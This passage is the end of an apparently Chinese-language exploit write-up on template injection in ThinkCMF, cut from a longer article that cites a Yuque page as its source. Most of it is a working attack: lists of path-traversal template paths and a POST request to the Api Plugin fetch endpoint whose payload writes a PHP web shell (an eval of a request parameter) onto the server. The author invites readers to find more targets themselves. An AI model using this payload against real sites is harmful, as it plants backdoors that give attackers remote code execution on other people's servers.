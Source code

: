 请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可

    例如：
    /../public/index
    /../public/exception
    /../data/index
    /../data/runtime/index
    /../plugins/Mobileverify/View/admin_index
    /../plugins/Mobileverify/View/index
    /../plugins/Mobileverify/View/widget
    /../plugins/Demo/View/admin_index
    /../plugins/Demo/View/index
    /../plugins/Demo/View/widget
    /../application/Install/View/Public/footer
    /../application/Install/View/Public/head
    /../application/Install/View/Public/header
    /../application/Common/index
    /../application/Portal/Lang/en-us/index
    /../application/Api/Lang/en-us/index
    /../application/Api/Lang/zh-cn/index
    /../application/Comment/Lang/en-us/index
    /../application/Comment/Lang/zh-cn/index
    url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
    post:
    templateFile=/../../../public/index
    prefix=''
    content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>
    /../../../public/index
    /../../../public/exception
    /../../../data/index
    /../../../data/runtime/index
    /../../../plugins/Mobileverify/View/admin_index
    /../../../plugins/Mobileverify/View/index
    /../../../plugins/Mobileverify/View/widget
    /../../../plugins/Demo/View/admin_index
    /../../../plugins/Demo/View/index
    /../../../plugins/Demo/View/widget
    /../../../application/Install/View/Public/footer
    /../../../application/Install/View/Public/head
    /../../../application/Install/View/Public/header
    /../../../application/Common/index
    /../../../application/Portal/Lang/en-us/index
    /../../../application/Api/Lang/en-us/index
    /../../../application/Api/Lang/zh-cn/index
    /../../../application/Comment/Lang/en-us/index
    /../../../application/Comment/Lang/zh-cn/index

还有最后一句废话：模版注入对于linux 并不好用 : )
差不多了，剩下的自己去thinkcmf里面自己找

四、参考链接
------------

> 文章来源于<https://www.yuque.com/pmiaowu/bfgkkh/aiiak1>

